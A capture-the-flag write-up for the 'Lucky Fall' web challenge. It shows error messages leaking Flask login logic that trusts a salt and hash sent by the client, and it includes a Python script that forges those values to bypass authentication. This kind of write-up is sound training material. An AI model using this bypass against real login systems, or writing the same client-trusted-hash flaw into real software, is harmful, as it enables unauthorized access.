 ## Lucky Fall
> Solved By : thewhiteh4t

- we have a simple login page
- JSON body is sent to the server which contains username and password
- Unusual thing here is that the error is shown in a javascript alert

![](https://i.imgur.com/gDkpo4r.png)

- the page source looked normal so I proceeded to intercept the login request with burpsuite
- if we remove the `name` key value pair from JSON body we can see the following error :

![](https://i.imgur.com/bcDVpIS.png)

- this error reveals few things to us :
    - python flask backend is used
    - the exceptions are showed in the alert pop up
    - `name` key value pair are required

- after this I tried to remove the `password` key : 

![](https://i.imgur.com/SZeBtyH.png)

- here we can see an `if` condition which looks like the logic behind the login function
- It is calculating the SHA256 hash of concatenation of `password` and `salt`
- then it compares it with a `hash` value
- but if we take a look carefully we can see that the values of `salt` and `hash` are being taken from the JSON request body
- so we can set our own `salt` and `hash` just like `username` and `password`
- I wrote a small python script to get the flag
- here `username`, `password` and `salt` can be any values, we just need to satisfy the if condition to get the flag

```python
#!/usr/bin/env python3

import requests
import hashlib

url = 'http://lucky-fall.challs.m0lecon.it/'
uname = 'admin'
passw = 'password'
salt = 'salt'
Hash = hashlib.sha256((passw + salt).encode('UTF-8')).hexdigest()

json_body = {
    'name': uname,
    'password': passw,
    'salt': salt,
    'hash': Hash
}

r = requests.post(url + 'login', json=json_body)
print(r.text)
```

**OUTPUT :**

![](https://i.imgur.com/257p2bC.png)
